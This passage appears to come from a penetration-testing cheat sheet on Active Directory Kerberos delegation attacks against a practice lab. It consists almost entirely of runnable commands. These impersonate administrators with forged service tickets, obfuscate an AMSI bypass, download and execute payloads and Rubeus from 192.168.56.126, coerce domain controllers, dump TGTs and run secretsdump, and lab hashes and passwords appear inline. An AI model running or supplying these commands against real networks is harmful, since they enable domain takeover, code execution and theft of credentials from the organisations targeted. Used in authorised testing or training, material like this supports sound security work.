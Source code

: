 ```bash
getST.py -impersonate "administrator" -spn "http/winterfell" -altservice "cifs/winterfell" -additional-ticket 'administrator@host_castelblack@NORTH.SEVENKINGDOMS.LOCAL.ccache' -dc-ip 'DomainController' -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' 'domain'/'castelblack$'
export KRB5CCNAME=administrator@....LOCAL.ccache 
wmiexec.py -k -no-pass 'domain'/administrator@'targetComputerHostname'
# After the exploit a little clean up of the lab, flush the rbcd entry and delete the computer account with a domain admin
rbcd.py -delegate-to 'castelblack$' -delegate-from 'rbcd_const$' -dc-ip 'DomainController' -action 'flush' -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' 'DOMAIN'/'castelblack$'
addcomputer.py -computer-name 'rbcd_const$' -computer-pass 'rbcdpass' -dc-host 'DomainController' 'dnorth.sevenkingdoms.local/eddard.stark:FightP3aceAndHonor!' -delete

getST.py -spn WWW/dc.domain.com -impersonate Administrator domain.com/svc_machine -hashes :4fded14079fe2667c67f2b43fd6cb57b
```
{% endcode %}

### Unconstrained Delegation

{% code overflow="wrap" fullWidth="true" %}
```bash
https://pentestlab.blog/2022/03/21/unconstrained-delegation/

# Find it on Bloodhound
MATCH (c {unconstraineddelegation:true}) return c
# unconstrained delegation system (out of domain controller) 
MATCH (c1:Computer)-[:MemberOf*1..]->(g:Group) WHERE g.objectid ENDS WITH '-516' WITH COLLECT(c1.name) AS domainControllers MATCH (c2 {unconstraineddelegation:true}) WHERE NOT c2.name IN domainControllers RETURN c2
# Use Rubeus but first bypass AMSI
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
(new-object system.net.webclient).downloadstring('http://192.168.56.126/amsi_rmouse.txt')|IEX
# Now launch Rubeus in memory with execute assembly
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.126/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data);
# First we will list the available tickets
[Rubeus.Program]::MainString("triage");
# Now if possible force a coerce of a DC to another DC in case no interesting tickets are found
python3 coercer.py -u arya.stark -d north.sevenkingdoms.local -p Needle -t kingslanding.sevenkingdoms.local -l winterfell
# Dump TGT
[Rubeus.Program]::MainString("dump /user:kingslanding$ /service:krbtgt /nowrap");
cat tgt.b64|base64 -d > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=/workspace/unconstrained/ticket.ccache
secretsdump.py -k -no-pass SEVENKINGDOMS.LOCAL/'KINGSLANDING$'@KINGSLANDING
```
{% endcode %}
